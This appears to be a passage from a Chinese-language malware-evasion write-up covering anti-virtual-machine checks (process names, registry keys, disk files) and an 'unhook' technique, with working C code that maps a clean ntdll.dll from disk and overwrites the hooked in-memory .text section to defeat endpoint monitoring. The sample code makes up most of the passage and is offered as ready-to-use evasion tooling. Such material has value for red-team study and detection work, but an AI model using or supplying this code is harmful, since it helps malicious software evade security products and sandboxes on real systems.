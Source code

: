 
-   Anti VM：反虚拟机
    

-   检测进程名
    
-   检测注册表
    
-   检测磁盘中文件
    
    如图：
    
    ![图片](assets/1699494032-37d80127b73f829661c0d17b431e0b18.svg)
    
      
    
      
    

-   Unhook：从磁盘加载 ntdll
    

通过读取磁盘上 ntdll.dll 的.text 节，覆盖内存当中的 ntdll.dll 的.text 节，达到脱钩的效果

![图片](assets/1699494032-37d80127b73f829661c0d17b431e0b18.svg)

  

  

  

示例代码：

```plain
  HANDLE process = GetCurrentProcess();
  MODULEINFO mi = {};
  HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");

  GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
  LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
  HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
  HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
  LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

  PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
  PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

  for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
    PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

    if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
      DWORD oldProtection = 0;
      bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
      memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
      isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
    }
  }

  CloseHandle(process);
  CloseHandle(ntdllFile);
  CloseHandle(ntdllMapping);
  FreeLibrary(ntdllModule);
```